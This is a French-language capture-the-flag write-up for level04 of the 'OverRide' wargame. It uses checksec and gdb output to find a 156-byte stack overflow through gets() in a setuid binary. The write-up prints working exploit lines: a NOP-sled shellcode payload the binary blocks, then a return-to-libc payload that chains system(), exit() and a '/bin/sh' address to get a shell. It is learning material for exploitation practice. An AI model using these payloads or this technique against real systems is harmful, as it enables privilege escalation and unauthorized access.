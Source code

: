 RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level04/level04

level04@OverRide:~$ file level04 
level04: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x7386c3c1bbd3e4d8fc85f88744379783bf327fd7, not stripped

Dans le gets, nous ecrasons save eip a partir de 156 characteres:
=> 0x0804875e <+150>:   call   0x80484b0 <gets@plt>
(gdb) x/wx $esp
0xffffd490:     0xffffd4b0
(gdb) x/s 0xffffd4b0
0xffffd4b0:      ""
(gdb) info frame
Stack level 0, frame at 0xffffd550:
 eip = 0x804875e in main; saved eip 0xf7e45513
 Arglist at 0xffffd548, args: 
 Locals at 0xffffd548, Previous frame's sp is 0xffffd550
 Saved registers:
  ebx at 0xffffd540, ebp at 0xffffd548, edi at 0xffffd544, eip at 0xffffd54c
(gdb) p/d 0xffffd54c-0xffffd4b0
$1 = 156

level04@OverRide:~$ (python -c 'print "\x90" * (156-64) + "\x2b\xc9\x83\xe9\xf6\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e\xf3\x43\x6c\x98\x83\xee\xfc\xe2\xf4\x99\x48\x34\x01\xa1\x25\x04\xb5\x90\xca\x8b\xf0\xdc\x30\x04\x98\x9b\x6c\x0e\xf1\x9d\xca\x8f\xca\x1b\x40\x6c\x98\xf3\x30\x04\x98\xa4\x10\xe5\x79\x3e\xc3\x6c\x98" + "\x75\xd7\xff\xff"';cat) | ./level04 
Give me some shellcode, k
no exec() for you

Nous ne pouvons pas utiliser la fonction exec(), nous pouvons utiliser la technique du retour a la libc, qui consiste a aller chercher dans la memoire deja presente la fonction system, son argument et pourquoi pas son retour, meme si dans notre cas, nous n en avons pas besoin.

(gdb) print system
$2 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) print exit
$3 = {<text variable, no debug info>} 0xf7e5eb70 <exit>

export TMP="/bin/sh";(python -c 'print "B"*156+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\x54\xdf\xff\xff"';cat) | ./level04

(python -c 'print "B"*156+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xb7\xd8\xff\xff"';cat) | ./level04
-> La variable d environnement SHELL existe deja !

(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:      "/bin/sh"

(python -c 'print "B"*156+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"';cat) | ./level04

[ buffer permettant d'atteindre l'overflow ] [ Adresse system() ] [ Adresse retour ] [ Adresse "/bin/sh" ]


